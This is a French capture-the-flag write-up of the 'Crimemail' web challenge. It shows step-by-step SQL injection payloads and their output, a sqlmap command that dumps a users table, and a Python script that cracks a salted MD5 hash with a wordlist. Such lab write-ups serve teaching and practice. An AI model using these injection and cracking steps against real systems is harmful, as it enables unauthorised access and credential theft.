



**Crimemail - WEB**

Enoncé :
```
Collins Hackle is a notorious bad guy, and you've decided to take him down. You need something on him, anything, to send the police his way, and it seems he uses CrimeMail, a very specialized email service, to communicate with his associates.

Let's see if you can hack your way in his account...
```



Sur la page **forgot.php** on trouve rapidement une injection SQL :

```
username = admin'
```



On regarde si on peut l'exploiter facilement :
```
username = admin '||1#
```


On récupère le nom de la base de données :

```
username = admin 'union select database()#
```

Resultat :

```
Here is the requested hint for this username:

array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(2) "db"
  }
}

```

Injection :

```
username= admin' UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables where table_schema ='db'#
```

Resultat :

```
array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(5) "users"
  }
}
```

Injection :

```
admin' UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns where table_schema ='db'#
```
Resultat :

```
array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(39) "userID,username,pass_salt,pass_md5,hint"
  }
}
```

Injection :

```
admin' UNION SELECT username FROM users#
```

Resultat :
```
array(5) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(9) "p.escobar"
  }
  [1]=>
  array(1) {
    ["hint"]=>
    string(7) "g.dupuy"
  }
  [2]=>
  array(1) {
    ["hint"]=>
    string(8) "a.capone"
  }
  [3]=>
  array(1) {
    ["hint"]=>
    string(8) "c.manson"
  }
  [4]=>
  array(1) {
    ["hint"]=>
    string(8) "c.hackle"
  }

```

Injection :

```
admin' UNION SELECT pass_salt FROM users where username='c.hackle'#
```

Resultat :

```
array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(4) "yhbG"
  }
}
```

Injection :

```
admin' UNION SELECT pass_md5 FROM users where username='c.hackle'#
```
Resultat :
```
array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(32) "f2b31b3a7a7c41093321d0c98c37f5ad"
  }
}
```

Sinon une variante avec sqlmap : 

```
sqlmap.py -u https://crimemail.ctf.insecurity-insa.fr/hint.php --data="username=C"
    
    Database: db
Table: users
[5 entries]
+--------+-----------------------------+-----------+----------------------------------+-----------+
| userID | hint                        | username  | pass_md5                         | pass_salt |
+--------+-----------------------------+-----------+----------------------------------+-----------+
| 1      | NULL                        | p.escobar | c4598aadc36b55ba1a4f64f16e2b32f1 | Jdhy      |
| 2      | NULL                        | g.dupuy   | 0fd221fc1358c698ae5db16992703bcd | Kujh      |
| 3      | NULL                        | a.capone  | 23afc9d3a96e5c338f7ba7da4f8d59f8 | hTjl      |
| 4      | NULL                        | c.manson  | fe3437f0308c444f0b536841131f5274 | YbEr      |
| 5      | I don't need any hints man! | c.hackle  | f2b31b3a7a7c41093321d0c98c37f5ad | yhbG      |
+--------+-----------------------------+-----------+----------------------------------+-----------+
``` 
    


Maintenant on cherche la correspondance du hash dans le dictionnaire rockyou :

```PYTHON

import hashlib

passlist = open("/home/ark1nar/tools/wordlists/rockyou.txt", 'r')
for password in passlist:
    m = hashlib.md5()
    m.update(password[:-1] + "yhbG")
    if m.hexdigest() == "f2b31b3a7a7c41093321d0c98c37f5ad":
        print 'FOUND:' + password


```

On trouve rapidement le mot de passe : pizza

FLAG :

```
UNKNOWN SENDER says:

Meet me at INSA{s3cr3t_l0cat10n}
```


By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
